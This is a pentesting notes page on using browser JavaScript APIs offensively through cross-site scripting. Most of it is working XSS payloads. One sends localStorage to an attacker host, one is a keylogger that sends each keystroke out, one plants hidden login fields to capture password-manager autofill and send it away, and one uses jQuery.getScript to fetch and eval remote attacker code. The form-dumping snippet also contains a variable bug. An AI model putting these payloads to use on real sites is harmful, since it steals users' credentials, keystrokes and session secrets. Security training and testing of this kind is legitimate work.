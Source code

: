 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```


## Useful JavaScript APIs

Notes on some useful JavaScript APIs to interact with the browser maliciously.

### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)

Represents the window the entire document (the HTML response from the server) lives. This gives us
access to the URL via the _location_ property and _localStorage_ which may contain secrets.

Treat Window as global, any properties set here or any methods we have access can be used in the
global context, like `alert()`. `alert()`is one of the primary methods we can use to prove that a
[[cross-site-scripting|XSS vulnerability]] exists in an application.

#### Exposing storage

Browsers cache important secrets in the `Window` namespace of a user's browsing session. With XSS,
we can exfiltrate this data by targeting the
[`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) and
[`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) objects
in the `Window` namespace:

```javascript
fetch("http://ATTACKER_IP_ADDRESS/exfil?data=" + encodeURIComponent(JSON.stringify(localStorage)))
```

### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)

A powerful API that allows us to interact with the document object model (DOM) of the web page we're
attacking. The DOM provides us with access to all text inputs, usernames, passwords, cookies, etc.
as well as all keypress events.

#### Dumping all input forms

A useful method in the `Document` namespace is
[`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName).
For example, let's dump the contents of all forms in the document that are tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input")

for (let inputForm of inputForms) {
  console.log(input.value)
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is actually provided
[here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes

Another fun technique to disclose information from a victim using the `Document` namespace is key
logging. Whenever a
[`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event) event occurs, we
can execute some JavaScript to retrieve the keys pressed by the victim:

```javascript
function keyLog(event) {
  console.log(event.key)
}

document.addEventListener("keydown", keyLog)
```

More information about the `addEventListener()` API can be found
[here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to the console, not super
useful for an attacker unless I can somehow view the victim's console! Instead, we need to
exfiltrate this data.

Using the [`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API, we
can coerce the victim into making a web request to a server we own. The result of the `fetch` action
doesn't matter either because `fetch` just returns a
[`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise).
This means we can avoid crashing our script when the `fetch` action fails. Now, when we log a
keystroke from the user, we can append the keystroke to a web request targeted at a server we host,
allowing us to see the victim's keystrokes:

```javascript
function keyLog(event) {
  fetch("http://<WEB_SERVER_IP_ADDRESS>/k?key=" + event.key)
}

document.addEventListener("keydown", keyLog)
```

#### Dumping credentials from password managers

Password managers are great; you should definitely be using one! But this particular script attacks
password managers into autofilling HTML DOM `input` objects that look like username and password
prompts.

Using this XSS payload, we modify the document, adding input forms for a username and a password,
hide them with an opacity of 0, and exfiltrate the username and password values after waiting 5
seconds for the password manager to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input")
u.type = "text"
u.style.position = "fixed"
u.style.opacity = "0"
var p = document.createElement("input")
p.type = "password"
p.style.position = "fixed"
p.style.opacity = "0"
body.append(u)
body.append(p)
setTimeout(function () {
  fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)
}, 5000)
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)

#### Using jQuery to load remote scripts

Probably not super useful is Cross-Origin protections are an issue, however, if a server provides
clients (browsers) with jQuery as a resource, we can use the
[`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a script from an arbitrary
location, either locally or with a remote URI, and execute a callback function when the script is
loaded successfully. Here's an example:

```javascript
jQuery.getScript(
  "http://ATTACKER_IP_ADDRESS/dump-password.js",
  function (script, textStatus, jqXHR) {
    eval(script)
  },
)
```

We can use great functions like
[`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob),
[`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and
[`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) to
bypass any encoding issues upon delivery. It's likely you'll need to convert the result of the
`getScript()` operation to ASCII using `btoa()` to avoid runtime exceptions. The code you're
injecting into probably won't handle the return value of `getScript()` well - it returns a callback
object.

## Related pages

- [[cross-site-scripting|Cross site scripting]]
